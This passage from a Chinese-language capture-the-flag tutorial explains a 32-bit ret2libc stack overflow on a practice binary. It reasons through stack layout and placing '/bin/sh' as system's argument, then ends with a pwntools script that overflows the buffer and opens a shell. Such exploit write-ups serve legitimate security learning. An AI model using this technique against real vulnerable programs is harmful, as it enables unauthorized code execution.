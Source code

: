 并且/bin/sh所在的位置为：<br />![](https://img-blog.csdnimg.cn/f00f267e96254b90add8ca4df3422033.png#crop=0&crop=0&crop=1&crop=1&id=z28bX&originHeight=117&originWidth=903&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)<br />如果我们单纯的将返回地址覆盖为system的地址，程序就会执行system（“shell！？”），但是shell！？并不是一个系统命令，此时程序执行会产生错误，就相当于我们直接在命令行敲shell！？，系统会提示找不到命令，但如果敲/bin/sh就会返回一个真正的shell。如果我们要想利用system函数并且让程序返回一个shell，那么我们就必须要让system函数的参数变为/bin/sh。

<a name="801344bd"></a>
#### 那么如何让system的参数变成/bin/sh？

首先回顾一下汇编调用过程：汇编调用函数过程中会首先将参数压栈，然后返回地址压栈，然后是ebp的地址。<br />![](https://img-blog.csdnimg.cn/da5ca471954c4957b575e41321e3fc64.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA6IuP55KD5Y-q5oOz5YiS5rC0,size_17,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=ZHzxh&originHeight=478&originWidth=639&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)<br />当程序调用system函数时，会自动去寻找栈底即ebp指向的位置，然后将ebp+8字节的位置的数据当作函数的参数，所以如果我们想将/bin/sh作为system函数的参数，就可以在栈溢出的时候，先修改eip为system函数的地址，然后填充4个字节的垃圾数据，再将/bin/sh的地址写入栈上，这样调用system函数的时候，就可以将/bin/sh作为参数，然后返回一个shell。<br />![](https://img-blog.csdnimg.cn/6b04fcf16d014f3e93080449eb2b5bb7.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA6IuP55KD5Y-q5oOz5YiS5rC0,size_20,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=txlC5&originHeight=442&originWidth=1039&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)<br />**注意：** 为什么是在eip（即system函数地址）后面覆盖4个字节垃圾数据而不是前面提到的8个字节，这是因为当我们调用system函数的时候，在system函数中会首先执行push ebp指令，将4字节的ebp地址压入栈中，而此时的栈底距离我们的参数/bin/sh正好8字节，所以我们应该填充4字节垃圾数据。

<a name="15c13488"></a>
#### 完整利用过程：

<a name="562b019f"></a>
##### 首先checksec：

![](https://img-blog.csdnimg.cn/15183c836e0f4bfc8024d1df8025e011.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA6IuP55KD5Y-q5oOz5YiS5rC0,size_18,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=SDRbp&originHeight=282&originWidth=668&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

32位程序，无canary，无pie。

<a name="8eeaae56"></a>
##### 32位ida pro打开：

![](https://img-blog.csdnimg.cn/835e484ec4ad4a088193c52ed655b535.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA6IuP55KD5Y-q5oOz5YiS5rC0,size_17,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=ECfNk&originHeight=257&originWidth=654&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)<br />明显的栈溢出漏洞。<br />![](https://img-blog.csdnimg.cn/7e9da3841c3c47f7b38e2f7e026c7218.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA6IuP55KD5Y-q5oOz5YiS5rC0,size_13,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=w8XWL&originHeight=318&originWidth=505&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)<br />存在system函数，地址为：<br />![](https://img-blog.csdnimg.cn/2df520385bd14a68babe316ac5d595bd.png#crop=0&crop=0&crop=1&crop=1&id=vd4tF&originHeight=124&originWidth=886&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)<br />/bin/sh地址为：<br />![](https://img-blog.csdnimg.cn/4b990dca65204fbfa90adeade3d62299.png#crop=0&crop=0&crop=1&crop=1&id=Lvxgt&originHeight=130&originWidth=967&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

然后动态调试确定栈溢出大小：<br />![](https://img-blog.csdnimg.cn/f979ce7160004130a2b10eb8b2aae4c6.png#crop=0&crop=0&crop=1&crop=1&id=tAQdc&originHeight=183&originWidth=401&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)<br />脚本如下：

```python
from pwn import *

sh = process('./ret2libc1')

binsh_addr = 0x8048720
system_plt = 0x08048460
payload = flat(['a' * 112, system_plt,'b'*4,binsh_addr])
sh.sendline(payload)

sh.interactive()
```
